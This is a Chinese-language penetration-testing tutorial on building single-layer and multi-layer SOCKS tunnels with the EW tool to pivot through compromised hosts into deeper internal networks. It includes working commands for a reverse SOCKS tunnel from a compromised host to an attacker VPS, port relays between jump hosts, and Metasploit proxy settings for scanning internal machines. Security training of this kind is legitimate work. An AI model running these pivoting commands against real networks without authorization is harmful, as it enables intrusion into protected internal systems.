


# 网络安全实战教程：第34天 - EW工具创建Socks代理 🛠️


在本节课中，我们将学习如何使用EW工具创建Socks代理，实现多层内网的穿透。我们将从基础概念讲起，逐步深入到实战操作，帮助你理解流量转发的原理和具体配置方法。


## 概述：代理与流量转发


上一节我们介绍了网络代理的基本概念。本节中，我们来看看如何使用EW工具实现具体的Socks代理。


代理的核心作用是转发网络请求。当客户端无法直接访问目标服务器时，可以通过一个中间服务器（代理服务器）来中转请求和响应。


## 第一部分：基础概念与单层代理


首先，我们来理解最简单的单层代理场景。假设我们有一台公网VPS（服务器A）和一台内网机器（目标B）。客户端希望通过VPS访问到内网的B。


**流量走向公式可以简化为：**
`客户端 -> VPS代理端口 -> 与内网机器的连接 -> 内网目标B`


具体过程是：客户端将请求发送到VPS的指定代理端口。VPS上运行的服务端程序（如`ew`）接收到请求后，会通过它和内网机器之间预先建立的连接通道，将请求转发给内网机器。最终，内网机器访问到目标B，并将响应按原路返回给客户端。





## 第二部分：EW工具基础使用


在深入多层代理前，我们需要先掌握EW工具的基本命令。EW是一个功能强大的网络穿透工具。


以下是EW的几个核心运行模式：


*   **`-s ssocks`**: 建立正向Socks5代理服务器。在目标机器上监听一个端口，允许其他机器连接此端口作为代理出口。
*   **`-s rcsocks`**: 监听一个端口，等待远端机器连接，用于流量转发。
*   **`-s rssocks`**: 反向Socks5代理。在目标机器上运行，主动连接到攻击机，将本机的Socks5代理服务“反弹”到攻击机。
*   **`-s lcx_listen`**: 监听模式，用于端口转发。
*   **`-s lcx_slave`**: 连接模式，与`lcx_listen`配对使用，将流量从一个连接点转发到另一个。


常用参数：
*   `-l`: 指定本地监听的端口。
*   `-d`: 指定反弹Socks代理时连接的目标IP（即攻击机IP）。
*   `-f`: 指定连接的目标IP和端口（用于正向连接）。
*   `-e`: 设置使用的协议类型（如TCP）。


## 第三部分：实战操作 - 建立反向Socks代理

上一节我们介绍了EW的基本命令。本节中我们来看看最常见的反向代理实战。


假设我们已经通过漏洞获取了内网第一台机器（跳板机，IP: 192.168.2.1）的shell。我们的VPS公网IP是47.102.214.85。现在需要通过这台跳板机，访问其同网段（192.168.2.0/24）的其他机器。

**操作步骤如下：**


1.  **在VPS上启动流量转发端：**
    在VPS上执行以下命令，监听1888端口作为代理入口，并等待跳板机来连接7788端口。
    ```bash
    ./ew -s rcsocks -l 1888 -e 7788
    ```
    此命令意为：在VPS上建立一个转发，将本地1888端口收到的流量，通过7788端口建立的连接通道发送出去。


2.  **在跳板机上启动反向Socks服务端：**
    在内网跳板机（192.168.2.1）的shell中上传ew程序并执行：
    ```bash
    ./ew -s rssocks -d 47.102.214.85 -e 7788
    ```
    此命令意为：跳板机主动连接到VPS(47.102.214.85)的7788端口，并将本机的Socks5代理服务反弹过去。


3.  **配置客户端使用代理：**
    当以上两步都显示连接成功后，即可在攻击机（或任何能访问VPS的机器）上配置代理。将Socks5代理设置为`47.102.214.85:1888`。
    现在，通过该代理发出的所有流量，都会经过VPS的1888端口，通过已建立的通道，最终从跳板机（192.168.2.1）的网络接口发出。因此，你可以扫描或访问192.168.2.0/24网段的其他主机（如192.168.2.2）。


## 第四部分：实战进阶 - 建立二层Socks代理


单层代理允许我们访问跳板机所在网段。但如果目标在更深层的网络呢？例如，我们需要通过192.168.2.2这台机器，访问192.168.33.33。这就需要二层代理。


上一节我们实现了访问192.168.2.0/24网段。本节中我们来看看如何穿透到下一个网段。


**核心思想：** 在每一层跳板机上，都建立流量转发链路，将上一层的代理流量，接力转发到下一层。


**网络拓扑：**
`攻击机 -> VPS -> 跳板机1 (192.168.2.1) -> 跳板机2 (192.168.2.2) -> 最终目标 (192.168.33.33)`


**操作步骤如下：**


1.  **完成第一层代理：**
    重复第三部分的步骤，建立从VPS到跳板机1（192.168.2.1）的反向代理。假设VPS上的代理入口端口仍是1888。


2.  **在跳板机1上建立端口转发（监听）：**
    在跳板机1的shell中执行：
    ```bash
    ./ew -s lcx_listen -l 1080 -e 8889
    ```
    此命令在跳板机1上监听1080端口，并等待来自8889端口的连接。它负责将1080端口的流量转发给8889端口建立的连接。

3.  **在跳板机2上建立Socks服务并连接到跳板机1：**
    假设我们已通过第一层代理，在跳板机2（192.168.2.2）上获得了shell。
    a. 首先在跳板机2上建立一个**正向**Socks5代理：
    ```bash
    ./ew -s ssocksd -l 9999
    ```
    此命令在跳板机2上监听9999端口，提供Socks5代理服务。
    b. 然后，在跳板机2上执行连接命令，连接到跳板机1的8889端口：
    ```bash
    ./ew -s lcx_slave -d 192.168.2.1 -e 8889 -f 127.0.0.1 -g 9999
    ```
    此命令意为：跳板机2主动连接跳板机1(192.168.2.1)的8889端口，并将从该连接收到的所有数据，转发到本机(127.0.0.1)的9999端口（即我们刚建立的Socks5服务）。

4.  **形成完整链路：**
    此时，链路已经连通：
    *   攻击机设置代理为 `VPS_IP:1888`，流量到达VPS。
    *   VPS通过已建立的反向通道，将流量发给跳板机1。
    *   我们需要**配置代理工具**，让到达跳板机1的流量，继续走向跳板机2。这通常意味着在代理软件（如Proxifier, SocksCap）中设置**代理链**。
        例如，可以这样理解配置：`本地浏览器 -> (代理1: VPS_IP:1888) -> (代理2: 192.168.2.1:1080) -> 出口`。
    *   流量到达跳板机1的1080端口后，被`lcx_listen`转发给与跳板机2建立的8889连接。
    *   跳板机2的`lcx_slave`将流量转发给本机9999端口的Socks5服务。
    *   最终，Socks5服务从跳板机2的网络接口发出请求，访问到192.168.33.33。

**关键点：** 第二层代理的本质，是在第一层代理的基础上，在跳板机1和跳板机2之间，利用`lcx_listen`和`lcx_slave`再建立一条端口转发通道，将跳板机1上的一个端口（1080）映射到了跳板机2的Socks5服务端口（9999）。


## 第五部分：在渗透测试框架中的应用





建立了Socks代理通道后，我们可以将其集成到渗透测试框架中，如Metasploit (MSF) 和 Cobalt Strike (CS)。


*   **在Metasploit中设置全局代理：**
    在MSF控制台，可以使用`setg`命令设置全局代理，让所有模块的流量都走代理。
    ```msf
    setg Proxies socks5:47.102.214.85:1888
    setg ReverseAllowProxy true
    ```
    设置后，使用`exploit/multi/handler`接收反弹shell，或利用其他漏洞扫描、攻击内网主机时，流量都会经过指定的Socks5代理。


*   **在Cobalt Strike中设置Socks代理：**
    在Cobalt Strike的客户端，可以通过 `View -> Pivots -> SOCKS Server` 来添加一个Socks代理。实际上，更常见的做法是在已上线的Beacon上右键，选择 `Pivoting -> SOCKS Server` 来部署一个反向的Socks4a代理服务。CS会自动生成对应的连接命令，原理与EW工具类似。


**注意：** 在MSF中，`setg`是全局设置。如果只想让当前模块走代理，可以使用`set`命令。例如：
```msf
use auxiliary/scanner/smb/smb_version
set RHOSTS 192.168.33.33
set Proxies socks5:47.102.214.85:1888
run
```


## 总结与排错指南


本节课中我们一起学习了使用EW工具创建单层及多层Socks代理进行内网穿透的方法。

**核心步骤总结：**
1.  **获得立足点**：通过漏洞获取边界服务器或内网第一台主机的shell。
2.  **建立代理通道**：根据网络拓扑，选择正向(`ssocksd`)或反向(`rssocks`)方式，在目标机器上部署代理服务，并与攻击机建立连接。
3.  **流量接力**：对于多层网络，在每一层跳板机上使用`lcx_listen`和`lcx_slave`进行流量端口转发，将上层代理的流量引导至下层代理出口。
4.  **工具集成**：将最终可用的Socks代理配置到渗透测试框架或浏览器中，实现对深层内网的访问和攻击。

**常见问题与排错：**

*   **连接失败或超时**：
    *   检查命令参数是否正确，特别是IP地址和端口号。
    *   检查网络防火墙是否放行了相关端口。
    *   确认跳板机之间以及跳板机与VPS之间的网络可达性。
*   **代理链配置后无法访问**：
    *   逐层测试。先确保第一层代理能访问跳板机1的同网段。
    *   再在跳板机1上测试是否能通跳板机2的端口（如`telnet 192.168.2.2 9999`）。
    *   检查每一层`ew`进程是否正常运行，端口是否被占用。
*   **EW进程意外退出**：
    *   在Linux上，可以尝试在命令末尾加`&`放入后台，或使用`nohup`命令。
    *   也可以写简单的shell脚本循环检查进程是否存在并重启。


通过理解流量走向并熟练运用EW工具，你可以灵活地构建通往内网深处的代理隧道，为全面的内网安全评估打下基础。请务必在授权环境下进行练习。